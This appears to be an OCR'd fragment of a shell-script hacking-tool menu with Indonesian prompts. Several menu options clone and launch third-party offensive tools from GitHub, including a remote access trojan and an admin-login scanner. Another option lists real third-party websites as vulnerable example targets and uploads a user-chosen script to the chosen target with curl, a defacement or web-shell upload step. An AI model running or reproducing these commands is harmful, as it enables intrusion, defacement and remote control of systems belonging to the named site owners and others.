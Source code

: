 if [ $bro = 41 ] || [ $bro = 41 ]
then
clear
figlet "Mr.B4J1N64N" | lolcat
sleep 1
git clone https://github.com/MrKeepSmile/errorcybertool.git
mv errorcybertool $HOME
cd $HOME/errorcybertool
chmod 777 errorcyber
./errorcyber
fi

if [ $bro = 42 ] || [ $bro = 42 ]
then
clear
figlet "Mr.B4J1N64N" | lolcat
sleep 1
git clone https://github.com/Xi4u7/A-Rat.git
mv A-Rat $HOME
cd $HOME/A-Rat
python2 A-Rat.py
fi

if [ $bro = 43 ] || [ $bro = 43 ]
then
clear
figlet "Mr.B4J1N64N" | lolcat
sleep 1
git clone https://github.com/DarknessCyberTeam/Scan-Website-Admin-Login
mv Scan-Website-Admin-Login $HOME
cd $HOME/Scan-Website-Admin-Login
python2 Admin-Login.py
fi

if [ $bro = 44 ] || [ $bro = 44 ]
then
clear
echo "\033[34;1m"
cowsay -f kiss.cow "MrB4J1N64N" | lolcat
figlet -f slant MrB4J1N64N
echo "\033[37;1m"
echo "Masukan Web target"
echo "Contoh Web Target vuln"
echo "	http://bestilling.udir.no/"
echo "	http://560560.ru/"
echo "	http://myownemailer.com/"
echo "	http://Zoocentral.co.za/"
echo "	http://50-50-50.ru/"
echo "	http://tirupurjobs.net/"
echo "	http://Matrimony.co.za/"
echo "	http://Bheh.co.za/"
read -p "[MrB4J1N64N]>" target
echo "Masukan Nama script kalian"
echo "yang ada di Luar Folder Ruang Penyimpanan"
read -p "[MrB4J1N64N]>" script
curl -T /storage/emulated/0/$script $target
echo "\033[33;1m"
echo "Selesai! Tod Cek di $target $script "
fi
